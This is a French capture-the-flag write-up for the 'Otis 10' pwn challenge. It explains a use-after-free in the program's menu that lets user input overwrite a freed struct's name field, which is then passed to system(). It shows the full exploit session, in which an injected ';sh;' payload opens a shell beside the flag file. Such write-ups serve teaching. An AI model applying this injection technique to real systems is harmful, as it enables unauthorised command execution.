

# pwn - Otis 10

On remarque l'utilisation des fonctions `system` et `popen`
qui permettent d'exécuter des commandes systèmes.
Les appels à `popen` ont toujours une chaîne de caractères
constante en paramètres. En revanche, l'argument passé à
`system` est construit à partir de `creature->name` ; en
contrôlant `creature->name` il devient possible d'exécuter des
commandes arbitraires.

L'appel à `system` est contenu dans la fonction `roaaar`.

```c
void roaaar(creature_t *creature) {
    // you may need to install cowsay for this to work
    char cmd[256] = "echo 'Roarrr !' | /usr/games/cowsay -f ";
    strlcat(cmd, creature->name, sizeof(cmd));
    system(cmd);
}
```

## Vulnérabilité

Le menu présente plusieurs options :
```
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
```

Parmi ces options, "Se retransformer en vache" contient une
vulnérabilité. Voici son code :
```c
case 'v':
    free(creature);
    break;
```

En effet, après avoir appelé `free(creature)` le pointeur
`creature` n'est pas remis à NULL, il est toujours utilisable,
notamment par la fonction `roaaar`. Il y a donc un
use-after-free.

Maintenant que la zone mémoire pointée par `creature` est
libéré, il est possible d'allouer de la donnée contrôlée au
même endroit et par conséquent maîtriser le contenu de
`creature->name`.

```c
typedef struct {
    char msg[32];
    char name[64];
} creature_t;
```

La fonction `moo` alloue un buffer de 96 octets pour contenir
l'entrée utilisateur. Le type `creature_t` fait également 96
octets. L'allocation du buffer dans `moo` peut donc se faire
au même emplacement mémoire que l'objet `creature`
précédemment libéré.

Le schéma suivant décrit les étapes nécessaires pour contrôler
`creature->cmd`.



Lors de l'appel à `moo`, il faut envoyer 32 "A", qui viendront
remplir le champ `creature_t.msg`, puis la commande à
exécuter.

Il reste à appeler `roaaar` pour que la commande s'exécute.

```
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> n
Vous vous transformez en daemon.cow

=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> v
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> m
Message : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;sh;
 ______________________________________
< AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;sh; >
 --------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
=== Otis 10 ===
n : Nouvelle créature
v : Se retransformer en vache
r : Roaaar !
m : Meuh !
q : Quitter
> r
cowsay: Could not find  cowfile!
$ ls -la
total 28
drwxr-xr-x 1 root root    16 Feb 25 21:56 .
drwxr-xr-x 1 root root     0 Feb 25 21:56 ..
-r-xr-xr-x 1 root root 20720 Feb 25 21:47 challenge
-r--r--r-- 1 root root    39 Feb 25 21:41 flag.txt
```
